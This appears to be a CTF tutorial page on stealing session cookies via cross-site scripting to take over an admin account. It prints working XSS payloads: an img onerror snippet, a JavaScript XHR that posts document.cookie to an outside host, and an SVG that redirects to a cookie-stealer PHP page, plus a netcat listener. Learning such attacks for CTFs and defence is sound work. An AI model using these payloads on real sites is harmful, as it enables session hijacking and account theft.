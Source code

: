 ```yaml
---
description: >-
  Exploiting web application vulnerabilities to steal authentication cookies and
  escalate privilege or assume identity of another user
---
```


# Stealing Cookies

## Overview

Many websites use [cookies](https://kb.iu.edu/d/agwm) to authenticate users or to keep track of users across the application after authentication has occurred. Cookies can correlate to a specific user id, and lets the server know what authority the user has to access resources or make changes. 

Often, the use of stealing cookies in the context of a CTF involves escalating privilege from a normal user account to that of an admin. This could involve stealing the cookie of an authenticated admin in order to gain the privilege of that user. To do  so, one might exploit a cross site scripting attack, or XSS, in which an administrator or other user can be tricked to clicking a link which sends the attacker his or her cookies. Read more about XSS [here](./).

## Guide to Stealing Cookies

Stealing cookies is a _server side_ attack. This means that aside from the CTF player, another user has to be interacted with to trigger the vulnerability. In CTF context, this   could mean interacting with the CTF organizers/facilitators, or it could mean the organizers have set up some kind of automated process. An example of an automated process would be automated actions on [Selenium](https://www.selenium.dev/). 

### Step 1, Find a [XSS Vulnerability ](./)

To find an [XSS vulnerability](./), you often need to test input fields on a webpage. These can be comment boxes, input forms, or anywhere else you can submit text to the server. Below are some good resources for testing various inputs which _might_ trigger an [XSS vulnerability](./). 

{% embed url="https://portswigger.net/web-security/cross-site-scripting/cheat-sheet" caption="PortSwigget Cross Site Scripting Cheat Sheet" %}

{% embed url="https://owasp.org/www-community/xss-filter-evasion-cheatsheet" caption="OWASP XSS Filter Cheat Sheet" %}

### Step 2, Create Payload

To effectively steal another user's cookie, your payload needs to do two things; it needs to collect a session cookie, and it needs to display the cookie so you can see it. The later of the two steps is different depending if you are competing in a local network CTF or one hosted over the internet. 

#### Local Network Payload

A local network CTF can be defined as a CTF in which the target CTF application and your attack machine are on the same network. These can include a [VulnHub](../../../types/boot-2-root/vulnhub.md) [boot 2 root](../../../types/boot-2-root/) challenge where you are running the CTF and your attack machine in the same virtualization software. Payloads in a local network need to send cookies _directly_  to your attack machine. An easy way to accomplish this is with netcat. 

#### Netcat 

Start a netcat listener on port 80 . Once started, the payload for the XSS exploit should point directly to your attack machine's local ip and port 80.

```bash
nc -lnvp 80
```

An example payload might look like this. \([source](https://security.stackexchange.com/questions/49185/xss-cookie-stealing-without-redirecting-to-another-page)\)

```markup
<img src=x onerror=this.src='http://yourserver/?c='+document.cookie>
```

#### Stealing Cookies over the Internet

When competing in an online event, a local netcat listener will not work. Instead of directing the cookie locally, you can direct it to a resource you own on the internet. One of these best ways this can be done is with requestbin and pipedream

#### Sign up for a free requestbin account

{% embed url="https://requestbin.com/" %}

Once signed in, your first endpoint will be automatically generated for you. On the middle of the endpoint dashboard, select the create http source button. This will take you over to pipedream, a site where you can see live requests to your endpoint url. 

![](../../../.gitbook/assets/screen-shot-2020-06-15-at-9.47.14-pm.png)

On the pipedream dashboard, you will see a new endpoint url. This is the target that you will want to use in your XSS payload when stealing cookies, however, instead of a netcat listener receiving the connection request and credentials, you will see requests through the pipedream dashboard.

### Step 3: Triggering the Exploit

The final step after identifying an XSS vulnerability, crafting the payload, and preparing to receive a connection, is to get another users to trigger the exploit. Depending on the CTF, this might be done by "submitting" your payload to the CTF server, and some automated process using software like selenium might trigger the XSS and send the request back to your endpoint.  

#### Javascript

```text
allCookies = document.cookie;
var xhr = new XMLHttpRequest();
xhr.open("POST", "http://cors-anywhere.herokuapp.com/http://mom.bounceme.net:8888/");
xhr.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
xhr.send(allCookies);
```

#### Redirecting to your php server

```text
<svg xmlns:svg="http://www.w3.org/2000/svg" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.0" x="0" y="0" width="194" height="200" id="xss"><script type="text/ecmascript">document.location='http://yourdomain:port/cookiestealer.php?c='+document.cookie;</script></svg>
```



